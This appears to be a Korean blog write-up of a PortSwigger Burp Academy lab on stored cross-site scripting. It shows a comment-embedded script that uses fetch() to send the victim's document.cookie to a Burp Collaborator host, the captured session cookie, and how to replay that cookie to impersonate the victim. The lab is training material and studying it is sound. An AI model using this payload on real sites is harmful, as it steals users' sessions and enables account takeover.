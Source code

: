 ```yaml
---
layout: post
title: "Burp Academy-XSS 취약점: Exploiting cross-site scripting to steal cookies"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XSS취약점]
toc: true
last_modified_at: 2023-07-24 10:48:00 +0900
---
```


# 개요
- Stored 타입의 XSS 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies
- 난이도: PRACTITIONER (보통)

# 문제
- 커멘트 저장하는 부분에 Stored XSS취약점이 존재한다. 
- victim의 세션 쿠키를 얻어내서 victim 계정으로 서버에 접근하면 문제가 풀린다. 
- 문제를 풀려면 정식 Collaborator서버를 사용해야 한다. 

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie.
```


# 풀이 
- 문제에는 exploit서버가 주어지지 않는다. 
- 따라서 victim의 정보를 얻어내기 burp collaborator서버를 이용해야할 것 같다. 


Burp Suite에서 Burp Collaborator 페이로드를 하나 생성한다. 

그리고 해당 페이로드를 적용한 다음 exploit 코드를 웹 페이지의 커멘트에 저장한다. 작성자 이름과 메일 주소는 대충 적는다. 


```js
<script>
    fetch("https://b7jecv28f5s24fbxseef7kpoefk684wt.oastify.com?cookie="+encodeURIComponent(document.cookie))
</script>
```

커멘트를 저장한 후 블로그 글 상세보기 화면으로 돌아온다. 그리고 Burp Suite에서 collaborator서버 탭을 보면 다음 처럼 핑백이 나타난 것을 확인할 수 있다. victim 유저의 쿠키 값을 확인할 수 있다. URL 디코딩한 값은 다음과 같다. 

```
secret=Y8vNwX8F26uo4ZIMu7pv4MfHzuIMwr50; session=aD7nFaiUl2LcLrx2wK3NullmzDxF3LxR
```

![collaborator서버결과](/images/burp-academy-xss-13-1.png)

이제 victim으로 로그인하면 문제가 풀릴 것이다. 문제 서버의 홈으로 이동하는 요청을 Burp Proxy로 캡쳐하고 session의 값을 위에서 얻은 victim의 세션값으로 변경하고 요청을 보낸다. 그러면 문제 풀이에 성공했다는 메세지가 출력된다. 

![풀이성공](/images/burp-academy-xss-13-success.png)